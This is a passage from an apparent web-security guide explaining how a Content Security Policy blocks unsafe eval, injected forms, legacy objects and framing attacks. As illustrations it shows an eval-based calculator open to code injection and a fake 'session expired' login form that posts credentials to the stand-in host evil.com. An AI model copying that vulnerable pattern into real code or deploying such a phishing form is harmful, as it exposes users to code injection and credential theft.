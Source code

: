 will not work.
##### 3. Restricting Unsafe JavaScript¶
By preventing the page from executing text-to-JavaScript functions like eval, the website will be safe from vulnerabilities like the this:
// A Simple Calculator
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);

##### 4. Restricting Form submissions¶
By restricting where HTML forms on your website can submit their data, injecting phishing forms won't work either.
<form method="POST" action="https://evil.com/collect">
<h3>Session expired! Please login again.</h3>
<label>Username</label>
<input type="text" name="username"/>

<label>Password</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>

##### 5. Restricting Objects¶
And by restricting the HTML object tag, it also won't be possible for an attacker to inject malicious flash/Java/other legacy executables on the page.
#### Defense against framing attacks¶
Attacks like clickjacking and some variants of browser side-channel attacks (xs-leaks) require a malicious website to load the target website in a frame.
Historically the X-Frame-Options header has been used for this, but it has been obsoleted by the frame-ancestors CSP directive.
#### Defense in Depth¶
A strong CSP provides an effective second layer of protection against various types of vulnerabilities, especially XSS. Although CSP doesn't prevent web applications from containing vulnerabilities, it can make those vulnerabilities significantly more difficult for an attacker to exploit.
Even on a fully static website, which does not accept any user input, a CSP can be used to enforce the use of [Subresource Integrity (SRI)](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity). This can help prevent malicious code from being loaded on the website if one of the third-party sites hosting JavaScript files (such as analytics scripts) is compromised.
With all that being said, CSP should not be relied upon as the only defensive mechanism against XSS. You must still follow good development practices such as the ones described in [[Cross_Site_Scripting_Prevention_Cheat_Sheet|Cross-Site Scripting Prevention Cheat Sheet]], and then deploy CSP on top of that as a bonus security layer.
### Policy Delivery¶
You can deliver a Content Security Policy to your website in three ways.
#### 1. Content-Security-Policy Header¶
Send a Content-Security-Policy HTTP response header from your web server.
Content-Security-Policy: ...
